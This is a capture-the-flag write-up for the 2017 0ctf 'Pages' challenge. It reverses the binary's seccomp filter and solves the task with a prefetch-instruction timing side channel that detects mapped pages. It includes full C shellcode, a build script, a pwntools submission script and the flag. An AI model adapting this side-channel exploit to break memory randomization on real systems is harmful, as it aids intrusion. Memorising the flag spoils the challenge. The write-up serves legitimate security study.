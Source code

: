```yaml
---
layout: post
title: 0Ctf - Pages Writeup
description: "Writeup for the 2017 0ctf Pages pwning challenge"
modified: 2016-03-15
tags: [writeup, ctf, pwn, timing attack]
comments: true
share: true
categories: [writeups]
---
```


First of all this has been a really enjoyable challenge kudos to the creator. The provided binary is pretty simple, it reads 64 random bits from /dev/urandom then forks and in the child process maps 64 + 2 regions. The offset of the first 64 mmaped pages depends on random bits and it is calculated in the following way: 

```
addr = base + 0x2000 * i + 0x1000 * random[i]
```

The 65th mapped page is on a fixed address and functions as a "shared memory" between parent and child process, more on it later. There are also 4 pages mapped on the 0x400000000 address with r-x permissions, this area is going to hold our shell code.

After the pages are mapped the random bits are erased from the memory. Then the program goes on and reads our shell code to the executable page and jumps to it. Sounds perfect but unfortunately, before all of these shenanigans it calls some magical mystical *prctl* functions that are used to set up some really unwelcomed seccomp rules. Meanwhile the parent process *ptraces* the child and after the child breaks (calls int 3) it pokes its memory with
*ptrace*. The poked memory is compared to the original random bytes and if they match the flag is printed. 

So the goal of the challenge is to figure out the original random bytes based on the position of the 64 mmaped pages and then write the solution to the predefined address.

I began solving this challenge by further investigating the seccomp rules set by the *prctl* call, to gain a better idea of my shell code's possible capabilities. The seccomp rules are defined by a so called filter program similar to the berkely packet filter programs. The byte code of this program is passed to the *prctl* call and then the kernel parses it (see [man seccomp 2](http://man7.org/linux/man-pages/man2/seccomp.2.html)). These rules can be found in the binary's bss and they had to be reversed.
The most important structures are the following:

```c
struct sock_fprog {
   unsigned short      len;    /* Number of BPF instructions */
   struct sock_filter *filter; /* Pointer to array of
                                  BPF instructions */
};
struct sock_filter {            /* Filter block */
   __u16 code;                 /* Actual filter code */
   __u8  jt;                   /* Jump true */
   __u8  jf;                   /* Jump false */
   __u32 k;                    /* Generic multiuse field */
};
```
The structure of these programs is fairly simple, each filter entry can be treated as an instruction where the code is the actual opcode, jt and jf defines how many instructions needs to be skipped if the instruction evaluates to true or false (relative jumps) and k is the operand of these instructions. It is basically a really simple VM. Examples to write such programs and the definition of the "opcodes" are in the kernel sources (see
[bpf_common.h](http://lxr.free-electrons.com/source/include/uapi/linux/bpf_common.h) and [seccomp.c](http://lxr.free-electrons.com/source/kernel/seccomp.c)). As there were only 7 filter rules I decided to reverse them manually, it was a lot easier than it sounds, only took about 10 minutes after finding the sources. The actual rules are:

```
LD W ABS, 0, 0, 4 - load arch id
JEQ, 1, 0, 0xC000003E - test if x86_64
RET, 0, 0, 0 - ret kill immediately
LD W ABS, 0, 0, 0 - load syscall number
JEQ, 0, 1, 0x3C - test if sys_exit 
RET, 0, 0, 0x7fff0000 -ret ALLOW
RET, 0, 0, 0 - ret kill immediately
```

Basically it confirmed my worst fear that none of the syscalls are available (besides exit, but screw that).

At this point it is pretty clear what needs to be done, we have to decide if a given page is mapped in the memory without access to any syscalls. The question is how? The main problem is if we touch any unmapped page it generates a SIGSEGV so we lose. My initial idea was to set up a SIGSEGV signal handler or use a library function like [mincore](http://man7.org/linux/man-pages/man2/mincore.2.html) but the problem is that of course these all rely on different system calls. So this route was a
no go.

This left me with no other option than different side channel attacks that use timing windows to determine if memory is mapped or not. The problem itself is very similar to certain KASLR (Kernel ASLR) attacks where the memory is not accessible so timing channels are used to evaluate where certain pages are located (shout-out to my teammate [@tukan](https://twitter.com/kapteinemalje) who provided me with a bunch of valuable resources on the topic). The first attack I looked into
was the recent JS ASLR derandomization attack [AnC](https://www.vusec.net/projects/anc/), but I dismissed it quickly as it requires memory reads.

The next one on the list was [DrK](https://github.com/sslab-gatech/DrK) a KASLR derandomization attack which does exactly what I needed, it tells about a page if it is mapped or not without accessing it. The only problem is it relies on a specific hardware feature only available in some new intel CPUs called TSX (Transactional Synchronization eXtensions). The [tsx-tools](https://github.com/andikleen/tsx-tools) git repository provides tools to check if the feature is available
by using the cpuid instruction. Note that since all syscalls are disabled it is impossible to send back data, however when the int 3 is called the parent sends back a "Success" or "Failed!" message. On the other hand when the program crashes no messages is sent back. This one bit information was enough to leak the results of the test. Which failed. Unfortunately the CPU that hosted the challenge did not support the TSX feature.

My last resort was the side channel attack with the *prefetch* instruction, in essence it is a similar attack than the previous (see the [paper](https://gruss.cc/files/prefetch.pdf) and [blogpost](http://dreamsofastone.blogspot.nl/2016/02/breaking-kasrl-with-micro-architecture.html)). The prefetch instruction fetches data from the supplied address into the specified cache (for the attack Layer-2 cache is used for maximum timing differences, see prefetcht2) and it does no validity
checking at runtime. Great, but what is even better it takes longer to fetch addresses that are not mapped to physical addresses since searching all the page table entries is slower than hitting something earlier of course. 

I decided to test the concept locally and wrote a little PoC which did not work, both mapped and unmapped addresses took similar time to load. I was about to give up, when it occurred to me that pages needed to be written before they were actually mapped to physical memory. After that it was clear that a timing channel exists. I quickly turned my local PoC into a proper shell code, it is presented below:

```c
//exploit.c
#include <stdint.h>
#include "inc/rdtsc.h"

int measure_loop(char* addr, int cnt);
#define ITER_CNT 1000
int main()
{
    // get reference mapped
    char* mapped = 0x300000000;
    char* unmapped = 0x500000000;
    *(mapped + 0x400) = 'A';
    char* base = 0x200000800;
    int t_mapped = measure_loop(mapped+0x400, ITER_CNT);
    int t_unmapped = measure_loop(unmapped, ITER_CNT);
    
    int divide = t_mapped + ((t_unmapped - t_mapped)/2);
    int i = 0;
    int t_test;
    while (i < 64){
        t_test = measure_loop(base, ITER_CNT);
        mapped[i] = t_test < divide ? 0 : 1;
        i++;
        base += 0x2000;
    }
    return 0;

}
static inline uint64_t __attribute__((__always_inline__))
measure_prefetch(char* addr){
    uint64_t beg = rdtsc_beg();
	//_mm_prefetch ((void*)0x400000000, _MM_HINT_T2);
    //__asm __volatile("movabs $0x400000000, %rax; prefetcht2 (%rax)");
    __asm __volatile("mov %0, %%rax; 
        prefetcht2 (%%rax); 
        prefetcht2 (%%rax); 
        prefetcht2 (%%rax); 
        prefetcht2 (%%rax)"
            :: "m"(addr): "rax");

	return rdtsc_end()-beg;
}


int measure_loop(char* addr, int cnt)
{
    int min = 0xfffff;
    int i  = cnt;
    int val;
    uint64_t sum = 0;
	while(i--){
        val = measure_prefetch(addr);
        sum += val;
        if (val < min) min = val;

	}
    return min;
}
```

I briefly explain what it does. It first calculates a reference time for a mapped page (the "shared memory" solution page) and a surely unmapped page and calculates their average which is the reference value. Then it iterates over all the pages in question and decides whether they are mapped or not using the timing window. The measure loop does multiple iterations to eliminate jitter and returns the lowest received time. The actual measurement happens in the *measure_prefetch* function
which uses the rdtsc instruction to read the CPU time stamp register for accurate time indication. The actual source code of the rdtsc.h is stolen from [here](https://github.com/sslab-gatech/DrK/blob/master/common/rdtsc.h). There are multiple prefetcht2 calls because the gcc inline asm register clobbering creates an overhead (four mov instructions) that could mess up the results. 
The output of each decision is written to the "shared memory" which is later checked by the parent.

I used the following bash script to compile the shell code and get the raw binary code:

```bash
#!/bin/bash
if [ "$1" != "" ]; then
    gcc -nostdinc -fno-stack-protector -fno-common -O0 -fomit-frame-pointer\
        -static -I./inc -c $1 -o payload.o
    objcopy --only-section=.text --output-target binary payload.o payload.bin
else
    echo "Needs c source as argument"
fi
```

And this little python script to send the payload to the server:

```python
from pwn import *
if __name__ == "__main__":
    c = remote(PORT, IP)
    payload = asm("ret")
    with open('payload.bin') as f:
        payload = f.read()
    
    #print hexdump(payload)
    #print disasm(payload)
    c.send(p32(len(payload))+payload)

    print c.recv()
    c.interactive()
```

And to my greatest surprise the shell code worked like a charm, it gave me the flag on the first run. I have really enjoyed working on this challenge as it was quite different than the usual memory corruption pwn tasks.

```
flag{rand0mPage_randomFl4g}
```
